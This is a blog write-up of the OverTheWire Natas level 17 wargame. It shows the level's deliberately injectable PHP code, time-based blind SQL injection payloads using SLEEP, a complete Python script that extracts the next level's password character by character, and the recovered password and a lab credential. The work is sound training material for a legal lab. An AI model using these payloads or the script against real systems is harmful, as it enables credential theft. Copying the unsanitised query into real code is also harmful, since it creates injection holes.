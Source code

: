 ```yaml
---
layout: post
title:  "OverTheWire Wargames :: Natas :: Level 17"
date:   2015-09-26
---
```


[OverTheWire: Natas](http://overthewire.org/wargames/natas/)

## Level 17 > Level 18

![natas17-01](/img/otw-natas/natas17-01.png)

```
<h1>natas17</h1>
<div id="content">
<?

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas17', '<censored>');
    mysql_select_db('natas17', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        //echo "This user exists.<br>";
    } else {
        //echo "This user doesn't exist.<br>";
    }
    } else {
        //echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
<input type="submit" value="Check existence" />
</form>
<? } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html> 
```

This challenge is identical to [Natas 15]({% post_url 2015-09-21-otw-natas-15 %}) except instead of receiving a simple true/false, we get jack squat!

![natas17-jacksquat](/img/otw-natas/jacksquat.jpg)

If this were a different situation I might look for a network-based solution, can we send something back to ourselves, etc. Since we can't, the only remaining reasonable solution I'm aware of is a timing-based attack.

Modify the solution to [Natas 15]({% post_url 2015-09-21-otw-natas-15 %}) to include a check against the password and an associated SLEEP statement. The payload POC which worked after a bit of fussing about:

```
username=natas18" AND IF(BINARY LEFT(password, 1)="a",0,SLEEP(10));#
```

What I've done here is pick a random letter, 'a,' which I'll assume is not correct and put the SLEEP statement in the 'if not true' portion of the IF function. As expected, the response took slightly longer than 10s to arrive. Moving the SLEEP statement into the 'if true' portion of the IF function, the response returns immediately.

```
username=natas18" AND IF(BINARY LEFT(password, 1)="a",SLEEP(10),0);#
```

It technically doesn't matter which of these we use, but sleeping on a match is preferable in practice since they are fewer hits than misses.

There are a couple things I don't understand that tripped me up before I arrived at this solution. First, the timing is very precise when using AND but goes triple the time specified for sleeping when using an OR. Second, the typical MySQL `--` comment does not work but `#` does to tidy up the end of the command.  Note to future self: understand this.

EDIT: `--` comments [require a space](http://dev.mysql.com/doc/refman/5.1/en/comments.html) after the dashes which I had not included.  Mystery solved. I wonder how many times I've made this error in the past?

```
import socket, time

HOST = "natas17.natas.labs.overthewire.org"
PORT = 80
HEAD = """POST /index.php HTTP/1.1
Host: natas17.natas.labs.overthewire.org
Authorization: Basic bmF0YXMxNzo4UHMzSDBHV2JuNXJkOVM3R21BZGdRTmRraFBrcTljdw==
Content-Type: application/x-www-form-urlencoded
Content-Length: {clength}\r\n\r\n"""
POST = 'username=natas18" AND IF(BINARY LEFT(password, {glength})="{guess}",SLEEP(10),0);#'
ALPH = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890"

def natas17(p):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((HOST, PORT))

    TPOST = POST.format(glength=len(p), guess=p)
    REQU = HEAD.format(clength=len(TPOST)) + TPOST
   
    t1 = int(time.time())
    s.send(REQU)
    r = s.recv(8192) 
    s.close()
    
    if (int(time.time()) - t1) > 7:
        return True
    return False

p = ''
for i in xrange(64):
    f = False
    for c in ALPH:
        print p, c
        if natas17(p + c):
            f = True
            p = p + c
            break
    if not f:
        break

print "DONE"
print p
```

This one is fun to watch becuase of the obvious pause when a correct character is found.  Good stuff.

![natas17-02](/img/otw-natas/natas17-02.png)

Eventually, xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP
